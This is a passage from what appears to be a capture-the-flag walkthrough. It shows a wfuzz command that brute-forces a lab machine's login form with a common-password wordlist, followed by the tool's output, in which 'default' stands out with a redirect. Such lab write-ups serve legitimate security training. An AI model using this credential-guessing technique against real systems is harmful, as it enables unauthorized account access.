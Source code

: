 Time to move back to the login form. Instead of using hydra, this time we are going to try something different and use wfuzz.

Using burp or the browser console we are able to easily find the post fields and values that we want to fuzz, and go ahead and fuzz it with a common password wordlist:
```
root@kali: wfuzz -w /usr/share/wordlists/wfuzz/others/common_pass.txt -d "username=FUZZ&password=FUZZ&submit=Login" http://10.10.10.86/login

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.86/login
Total requests: 52

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200     18 L	      36 W	    543 Ch	  ""
000002:  C=200     18 L	      36 W	    543 Ch	  "123456"
000003:  C=200     18 L	      36 W	    543 Ch	  "1234567"
000004:  C=200     18 L	      36 W	    543 Ch	  "12345678"
000005:  C=200     18 L	      36 W	    543 Ch	  "123asdf"
000007:  C=200     18 L	      36 W	    542 Ch	  "admin"
000006:  C=200     18 L	      36 W	    542 Ch	  "Admin"
000008:  C=200     18 L	      36 W	    543 Ch	  "administrator"
000009:  C=200     18 L	      36 W	    543 Ch	  "asdf123"
000010:  C=200     18 L	      36 W	    543 Ch	  "backup"
000011:  C=200     18 L	      36 W	    543 Ch	  "backupexec"
000013:  C=200     18 L	      36 W	    543 Ch	  "clustadm"
000012:  C=200     18 L	      36 W	    543 Ch	  "changeme"
000014:  C=200     18 L	      36 W	    543 Ch	  "cluster"
000015:  C=200     18 L	      36 W	    543 Ch	  "compaq"
000017:  C=200     18 L	      36 W	    543 Ch	  "dell"
000016:  C=302      3 L	      24 W	    209 Ch	  "default"
000018:  C=200     18 L	      36 W	    543 Ch	  "dmz"
000019:  C=200     18 L	      36 W	    543 Ch	  "domino"
000020:  C=200     18 L	      36 W	    543 Ch	  "exchadm"
000021:  C=200     18 L	      36 W	    543 Ch	  "exchange"
000023:  C=200     18 L	      36 W	    543 Ch	  "gateway"
000024:  C=200     18 L	      36 W	    543 Ch	  "guest"
000022:  C=200     18 L	      36 W	    543 Ch	  "ftp"
000025:  C=200     18 L	      36 W	    543 Ch	  "lotus"
000026:  C=200     18 L	      36 W	    543 Ch	  "money"
000027:  C=200     18 L	      36 W	    543 Ch	  "notes"
000028:  C=200     18 L	      36 W	    543 Ch	  "office"
000029:  C=200     18 L	      36 W	    543 Ch	  "oracle"
000030:  C=200     18 L	      36 W	    543 Ch	  "pass"
000031:  C=200     18 L	      36 W	    543 Ch	  "password"
000032:  C=200     18 L	      36 W	    543 Ch	  "password!"
000033:  C=200     18 L	      36 W	    543 Ch	  "password1"
000034:  C=200     18 L	      36 W	    543 Ch	  "print"
000035:  C=200     18 L	      36 W	    543 Ch	  "qwerty"
000036:  C=200     18 L	      36 W	    543 Ch	  "replicate"
000037:  C=200     18 L	      36 W	    543 Ch	  "seagate"
000038:  C=200     18 L	      36 W	    543 Ch	  "secret"
000039:  C=200     18 L	      36 W	    543 Ch	  "sql"
000040:  C=200     18 L	      36 W	    543 Ch	  "sqlexec"
000041:  C=200     18 L	      36 W	    543 Ch	  "temp"
```